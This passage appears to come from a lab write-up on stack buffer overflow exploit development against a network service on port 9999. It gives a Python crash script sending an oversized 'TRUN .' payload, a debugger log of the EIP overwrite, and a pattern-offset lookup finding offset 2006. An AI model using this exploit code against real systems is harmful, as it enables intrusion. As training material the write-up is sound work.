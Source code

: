 Good we have the overflow, let's work the whole exploit now.

## Exploit

Let's start with the exploit we were able to start to trigger the overflow with EIP rewrite.

```
#!/usr/bin/python
import socket, sys
from struct import pack
import time

def main():
	server = "192.168.130.169"
	port = 9999

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((server, port))

	print(s.recv(1024))

	buf = b"TRUN ."			#control string
	buf += b"A"*0xBB8

	s.send(buf)

	print(s.recv(1024))

	s.close()
	sys.exit(0)

if __name__ == "__main__":
 	main()
```

### Offset

Let's use the pattern creator to find out the offset.

```
(994.2a34): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00a6f1e8 ebx=000000cc ecx=00e0559c edx=00000000 esi=00401848 edi=00401848
eip=396f4338 esp=00a6f9c8 ebp=6f43376f iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
396f4338 ??              ???
```

```
└─$ msf-pattern_offset -l 0xbb8 -q 396f4338
[*] Exact match at offset 2006
```
